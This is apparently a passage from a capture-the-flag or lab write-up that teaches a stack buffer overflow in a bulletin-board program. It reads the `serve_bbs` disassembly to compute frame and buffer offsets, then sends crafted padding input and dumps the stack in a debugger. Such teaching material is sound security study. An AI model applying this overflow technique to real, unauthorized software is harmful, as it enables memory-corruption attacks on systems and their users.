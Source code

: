 Before we send any input, we should think about how the stack is likely layed out and what sizes are already in use. Recall that in the x86-64 calling convention, the first two items placed before the beginning of the stack is the return address and the old rbp. This will take up 16 bytes to begin with. If we look at the setup of the stack in the disassembly for `serve_bbs`, we can see how many bytes are allocated: 

```asm
0x400ebc:  push    rbp
0x400ebd:  mov     rbp, rsp
0x400ec0:  push    rbx
0x400ec1:  sub     rsp, 0x98
0x400ec8:  lea     rdx, [rbp-0xa0]
```
As mentioned above, first: 
- rbp is pushed to the stack before our frame pointer begins. 
- Next the `mov rbp, rsp` instruction moves the stack pointer address into rbp to begin the stack frame for `serve_bbs`. 
- Then, `push rbx` will push another 8 byte value to the stack.
- Finally, `sub rsp,  0x98` will subtract another 152 bytes from the current location of the stack pointer (rbp-0x8). 

This means the stack is 160 bytes in size (0xa0). The next thing we need to consider is the size of the post title buffer `32 bytes` and the size of the stylized message string `20 bytes`. Together this presents 52 bytes used up in the buffer, which we substract from 160, leaving `108 bytes`. If we send 30 'A's (accounting for a newline added by fgets and \0 null terminating character), this will add up to 32 bytes for the title. We can then send 108 'B's, which should take us to the beginning of the stack just before the saved `rbp` and return address. 


```gdb
Enter choice:
>> 1
+-------=[ Create Post ]=-------+
| Enter post title:             |
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
| Enter post contents:          |
>> BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBB
+-------------------------------+

+---------------+
| Post created! |
+---------------+
Press enter to continue...
```

When we press enter to continue, we are back at the menu prompt. Recall that the `memcpy` operation happens when a post is viewed, so we will need to view a post to trigger the bug. Enter `3` as the choice then when our breakpoint is hit, we inspect the stack before the memcpy operation.

```gdb
Enter choice: 
>> 3
Breakpoint 0: 0x4010f7, serve_bbs+571
wdb> x/22gx $rsp
0x7fffffffed20: 0x3d3d3d3d3d3d3d0a    0x414141414141205d
0x7fffffffed30: 0x4141414141414141    0x4141414141414141
0x7fffffffed40: 0x4141414141414141    0x3d3d3d3d3d3d5b20
0x7fffffffed50: 0x0000000000000a3d    0x0000000000000000
0x7fffffffed60: 0x0000000000000000    0x0000000000000000
0x7fffffffed70: 0x0000000000000000    0x0000000000000000
0x7fffffffed80: 0x0000000000000000    0x0000000000000000
0x7fffffffed90: 0x0000000000000000    0x0000000000000000
0x7fffffffeda0: 0x0000000000401738    0x0000000100000003
0x7fffffffedb0: 0x0000000000000000    0x0000000000000000
0x7fffffffedc0: 0x00007fffffffedd0    0x0000000000401195
```